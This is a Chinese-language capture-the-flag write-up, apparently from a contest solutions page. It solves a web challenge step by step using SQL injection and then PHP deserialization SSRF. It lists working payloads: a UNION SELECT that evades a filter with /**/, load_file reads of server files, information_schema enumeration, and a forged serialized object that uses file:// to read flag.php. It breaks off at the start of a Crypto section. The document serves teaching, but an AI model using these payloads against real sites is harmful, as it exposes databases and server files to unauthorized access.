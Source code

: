 ### BBS
注册一个账号 登录后发现网页会内嵌blog中的网址，同时发现请求的参数为  
>view.php?no=2  

加个分号试试 view.php?no=2'
> [*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1  

看到这报错信息，DNA动了  
orderby爆字段数量，5时报错说明字段数为4  
>?no=1 order by 4# 

union select被屏蔽 用/**/就可以绕过，发现字段2可以直接回显  
>?no=9 union/**/select 1,2,3,4#  

这时候有SQL注入大佬可能会先看看权限
>?no=9 union/**/select 1,user(),3,4#  

一查吓一跳，root@localhost，那还注什么，直接随便打拿flag了  
>?no=9 union/**/select 1,load_file("/var/www/html/flag.php"),3,4#  

执行后在用户名的地方查看源码就能得到flag   

那如果不是SQL注入大佬，没有一步拿到flag，我们接着往下做：  
查信息表找表名，列名 内容  
>?no=9 union/**/select 1,(select table_name from information_schema.tables limit 1 offset 0),3,4#  

>?no=9 union/**/select 1,(select column_name from information_schema.columns where table_name='users' limit 1 offset 3),3,4#  

>?no=9 union/**/select 1,(select data from users where no=2),3,4#
可以知道表的结构为：
- no 用户id
- name 用户名
- password 密码的hash
- data O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:20:"http://www.baidu.com";}

其中data看起来是序列化的php内容，试着放到结果中  
> ?no=9 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:20:"http://www.baidu.com";}'#

会发现反序列化了我们的内容，这时候有经验的web大佬又已经想到了伪协议SSRF了，只需要更改一下序列化的内容就能读出flag  
没有想到的同学也可以通过查看robots.txt得到源码 查看逻辑得知反序列化过程  
> ?no=9 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'# 

执行后在bolg预览的地方查看源码就能得到flag   
>flag{U_mast3red_inj3ctiOn_Unser1alize_and_SSrF!}
## Crypto
### at_bash
有很多种方法做，分享几个自动化的解法，以下仓库都在github上开源，其中CyberChief有在线版本：  
- Ciphey 可以全自动解决问题